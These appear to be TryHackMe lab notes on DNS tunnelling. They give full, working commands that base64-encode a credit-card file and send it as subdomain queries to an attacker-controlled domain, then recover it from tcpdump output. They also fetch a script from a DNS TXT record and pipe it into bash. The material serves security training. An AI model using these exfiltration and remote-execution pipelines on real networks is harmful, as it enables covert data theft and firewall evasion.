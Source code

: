# Exfiltration over DNS

Since `DNS` is not a transport protocol, many organisations do not regularly monitor the DNS protocol. 
The `DNS` protocol is allowed in almost all firewalls in any organisational network, although good organisations 
will have monitoring in place to detect it afterwards. The fabulous `dnscat2` is very easy to get up and running.

Some IDS/IDPs are now capable of spotting DNS tunnelling, but often miss data sent via DNS TXT records. Re-useful tools
are [Uninvited-Guest](https://github.com/pentestpartners/Uninvited-Guest), and its earlier, more raw version 
[DNSTXT-encoder](https://github.com/pentestpartners/DNSTXT-encoder).

There are many use case scenarios, but the typical one is when the firewall blocks and filters all traffic. We can 
pass data or `TCP/UDP` packets through a firewall using the `DNS` protocol, but it is important to ensure that the 
`DNS` is allowed and resolving domain names to IP addresses.

* An attacker registers a domain name, for example, tunnel.com.
* The attacker sets up tunnel.com's NS record points to a server that the attacker controls.
* The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.
* The `DNS` request is sent through the local `DNS` server and is forwarded through the Internet.
* The attacker's authoritative `DNS` (malicious server) receives the `DNS` request.
* Finally, the attacker extracts the password from the domain name.

## DNS Data Exfiltration

* Get the required data that needs to be transferred.
* Encode the file using one of the encoding techniques.
* Send the encoded characters as subdomain/labels.
* Consider the limitations of the `DNS` protocol. Note that we can add as much data as we can to the domain name, but 
we must keep the whole URL under 255 characters, and each subdomain label ca not exceed 63 characters. If we do 
exceed these limits, we have to split the data and send more `DNS` requests.

Connect to the new thm attacker machine using ssh from the jump host:

    thm@jump-box$ ssh thm@attacker.thm.com

Capture DNS requests:
	
    thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
    tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes

Open a new terminal, ssh jump to victim2 from the jump host:

    thm@jump-box$ ssh thm@victim2.thm.com

Check the content of the `creds.txt` file:

    thm@victim2$ cat task9/credit.txt
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

Encode:

    thm@victim2$ cat task9/credit.txt | base64
    TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
    MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==

Split the content into multiple DNS requests:

    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
    TmFtZTogVEhNLXVzZX.att.tunnel.com
    IKQWRkcmVzczogMTIz.att.tunnel.com
    NCBJbnRlcm5ldCwgVE.att.tunnel.com
    hNCkNyZWRpdCBDYXJk.att.tunnel.com
    OiAxMjM0LTEyMzQtMT.att.tunnel.com
    IzNC0xMjM0CkV4cGly.att.tunnel.com
    ZTogMDUvMDUvMjAyMg.att.tunnel.com
    pDb2RlOiAxMzM3Cg==.att.tunnel.com

* `tr -d "\n"` - remove newlines.
* `fold -w18` - every 18 characters in a group
* `sed -r 's/.*/&.att.tunnel.com/'` - append the name server `att.tunnel.com` to every group

Now split every 18 characters with a dot `.` and add the name server:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
    TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.comthm@victim2:~$ 

From the victim2 machine, send the base64 data as a subdomain name via `dig` taking DNS limitations into account:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

Open a new terminal, jump to the attacker machine and check results using `tcpdump`:

    thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
    [sudo] password for thm: 
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    16:06:05.923936 IP (tos 0x0, ttl 64, id 47515, offset 0, flags [none], proto UDP (17), length 104)
        172.20.0.1.43174 > attacker.domain: 19394% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
    16:06:05.924355 IP (tos 0x0, ttl 64, id 47516, offset 0, flags [none], proto UDP (17), length 235)
        172.20.0.1.36730 > attacker.domain: 33745% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
    16:06:05.926140 IP (tos 0x0, ttl 64, id 28057, offset 0, flags [DF], proto UDP (17), length 69)
        attacker.57010 > 172.20.0.1.domain: 53575+ PTR? 1.0.20.172.in-addr.arpa. (41)
    16:06:05.926243 IP (tos 0x0, ttl 64, id 47517, offset 0, flags [DF], proto UDP (17), length 123)
        172.20.0.1.domain > attacker.57010: 53575 NXDomain* 0/1/0 (95)

Clean and restore the received data:

    thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

## C2 communications over DNS

In victim2, create a `script.sh` in `/tmp`:

    thm@victim2:~$ cd /tmp/
    thm@victim2:/tmp$ nano script.sh

The code for `script.sh`:

    #!/bin/bash 
    ping -c 1 test.thm.com

Encode the script:

    thm@victim2:~$ cat /tmp/script.sh | base64
    IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K

Add it as a `TXT` `DNS` record to the `tunnel.com` domain using the web interface provided: http://MACHINE_IP/

Confirm it was added successfully:

    thm@victim2:~$ dig +short -t TXT script.tunnel.com
    "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

Run the script (clean using `tr` and deleting any double quotes `"`):

    thm@victim2:~$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
    PING test.thm.com (127.0.0.1) 56(84) bytes of data.
    64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.019 ms
    
    --- test.thm.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms

Get the flag:

    thm@victim2:~$ dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash
